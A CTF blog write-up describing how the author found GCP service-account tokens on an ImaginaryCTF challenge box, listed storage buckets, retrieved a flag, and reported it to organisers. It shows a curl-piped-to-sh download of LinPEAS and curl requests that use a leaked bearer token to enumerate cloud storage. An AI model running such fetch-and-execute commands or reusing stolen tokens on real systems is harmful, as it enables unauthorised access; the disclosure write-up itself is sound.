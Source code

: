 ```yaml
---
title: "How I (accidentally) hacked ImaginaryCTF infra"
date: 2023-07-23
description: "\"this is what i get for writing an instancer from scratch the day before the ctf\" - Eth007"
tags: [writeups, ctfs]
---
```


For this years ImaginaryCTF I played with my friends at `les amateurs`. We ended up placing 12th out of 880 teams competing! There were lots of super interesting challenges and I look forward to competing in next year.

# Background
Just for fun, I had decided to look at the challenge `misc/obscured`

{{< zoom-img src="img/chall.png" >}}

When we connect to the challenge it would have us complete a PoW that would then give us a box to SSH into. Once I realized I have no clue what I'm doing, I decided to run a powerful Linux enumartion script (very skid), LinPEAS ([github](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)). This tool does a multitude of checks specifically looking for ways to escalate privileges. Since this box had access to the internet, we could easily run the command to download and run the script.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Running this script revealing some interesting information. Obviously it did reveal some information about the intended challenge (polkit) but what caught my eye the most was that the script detected this was running in Google Cloud. Once the script learned that, it did some extra enumeration to look for information related to GCP. It was able to find things like the project ID, project SSH keys, and lots more. The most interesting out of all of that was the access tokens for GCP service accounts.

{{< zoom-img src="img/service-accounts.png">}}

# GCP Enumeration

At first I was unsure if we could use this for anything, but after a bit of research I realized we can use the access tokens to make API requests about the GCP project. And looking at the scopes we had access to, I decided to look at the GCP storage to see if this is something worth reporting.

Using the [GCP Storage JSON API documentation](https://cloud.google.com/storage/docs/json_api/v1) as a reference, I crafted the following request to list the available buckets.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b?project=[REDACTED]' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

Running this command revealed two buckets. To list the contents of the buckets, we could make the following cURL request.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b/[BUCKET ID]/o' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

One of them would end up being empty, however the other bucket would contain some pretty sensitive information. Each one of the object IDs looked something like this

`[REDACTED URL]/containers/images/sha256:[sha256 hash]/[some num]`

Noticing this I assumed this bucket contained all of the docker containers used for ImaginaryCTF. To double check, I tried downloading one of the files. Not exactly sure what the file was since it didn't look like a docker image, however it **did** contain a flag. 

# Conclusion
Once we found this, I immediately dm'd one of the organizers telling him what I found and gave all the information he asked for. We ended up not using the flag we found (since you shouldn't do that) and the challenge went down for maintenance to get fixed.

Thank you to Eth007 for handling the situation very well and not DQ'ing our team for this! Once again, this was an amazing CTF and I had high hopes that next year this problem won't happen again!

# Funny Screenshot
{{< zoom-img src="img/funny.png" >}}
{{< zoom-img src="img/eth-dumb.png" >}}
{{< zoom-img src="img/lmao.png" >}}
